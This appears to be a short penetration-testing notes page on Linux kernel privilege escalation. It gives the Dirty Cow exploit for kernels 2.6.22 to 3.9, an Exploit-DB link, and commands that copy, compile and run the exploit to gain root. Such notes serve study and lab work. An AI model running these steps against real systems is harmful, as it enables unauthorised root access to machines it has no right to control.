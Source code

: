 # Linux System

## Kernel

A computer program that controls everything in the system. It facilitates interactions between hardware and software components, essentially a translator.

### Dirty Cow Linux Kernel 2.6.22 < 3.9

Exploit-DB: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

Download and compile:

```
cp /usr/share/exploitdb/exploits/linux/local/40839.c . && gcc -pthread 40839.c -o cow -lcrypt
```

Execute:

```
./cow
```

![](<../../../.gitbook/assets/image (2) (1).png>)
